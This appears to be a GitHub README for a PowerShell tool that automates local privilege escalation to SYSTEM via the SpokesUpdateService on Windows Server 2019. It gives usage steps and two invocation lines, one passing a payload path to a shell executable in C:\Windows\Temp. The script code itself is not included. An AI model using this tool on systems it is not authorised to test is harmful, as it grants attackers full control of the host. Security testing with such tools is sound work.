 # Get-Spokes3GSystem
PowerShell script to aid in the automation of local privilege escalation path with the SpokesUpdateService

<br><br>

# Tested on:
Windows Server 2019

<br><br>

# Usage:
1. Download the script to the target
2. If using a custom payload file, place that in a writable directory on the target
3. Run the script
  - If using the script as-is, will spawn a cmd.exe shell as SYSTEM
  
```powershell
.\Get-Spokes3GSystem.ps1
```

```powershell
.\Get-Spokes3GSystem.ps1 -Payload "$($env:USERNAME)|advertise|C:\Windows\Temp\shell.exe"
```
